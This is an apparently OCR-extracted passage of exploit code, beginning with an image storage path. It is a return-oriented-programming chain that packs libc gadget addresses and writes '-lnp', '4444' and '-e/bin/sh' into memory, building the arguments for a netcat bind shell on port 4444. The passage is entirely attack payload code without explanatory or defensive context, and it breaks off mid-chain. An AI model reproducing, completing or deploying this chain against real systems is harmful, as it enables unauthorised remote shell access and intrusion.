 ```lang-bash line-numbers 
        p += pack("<I", off + 0x001789d0) # @ .data + 16
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "-lnp" # -lnp
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789d4) # @ .data + 20
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "4444" # 4444
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789d8) # @ .data + 24
        p += "AAAA" # padding
        p += pack("<I", off + 0x000328e0) # xor eax,eax ; ret
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789d9) # @ .data + 25
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "-e/b" # -e/b
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789dd) # @ .data + 29
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "in/s" # in/s
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789e1) # @ .data + 33
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "hAAA" # hAAA
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789e2) # @ .data + 34
        p += "AAAA" # padding
        p += pack("<I", off + 0x000328e0) # xor eax,eax ; ret
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789e3) # @ .data + 35
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += pack("<I", off + 0x001789c0) # @ .data
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789e7) # @ .data + 39
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += pack("<I", off + 0x001789d0) # @ .data + 16
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789eb) # @ .data + 43
        p += "AAAA" # padding
```